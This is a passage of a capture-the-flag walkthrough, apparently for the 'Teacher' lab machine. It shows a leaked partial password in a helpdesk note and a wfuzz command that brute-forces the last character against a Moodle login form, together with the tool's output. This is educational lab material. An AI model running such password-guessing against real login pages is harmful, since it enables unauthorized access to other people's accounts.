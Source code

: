 as we can see we have a text file, let's open it:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```
This is basically giving us a password, and since the only login prompt we've seen so far is for /moodle/, let's try to exploit this.  
We can use wfuzz to enumerate all the possible characters, and since password usully contains special chars, let's use the special chars dictionary.  
```
[root@kali Teacher ]$ wfuzz -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

[... SNIP ....]

000000022:   303        6 L      34 W       440 Ch      "`"                                                                                                                                                                         
000000029:   303        6 L      34 W       440 Ch      "'"                                                                                                                                                                         
000000028:   303        6 L      34 W       440 Ch      ":"                                                                                                                                                                         
000000004:   303        6 L      34 W       454 Ch      "#"                                                                                                                                                                         
000000026:   303        6 L      34 W       440 Ch      "?"                                                                                                                                                                         
000000025:   303        6 L      34 W       440 Ch      "/"                                                                                                                                                                         
000000031:   303        6 L      34 W       440 Ch      "<"                                                                                                                                                                         
000000032:   303        6 L      34 W       440 Ch      ">"                                                                                                                                                                         
000000030:   303        6 L      34 W       440 Ch      """                                                                                                                                                                         
000000027:   303        6 L      34 W       440 Ch      ";"                                                                                                                                                                         
```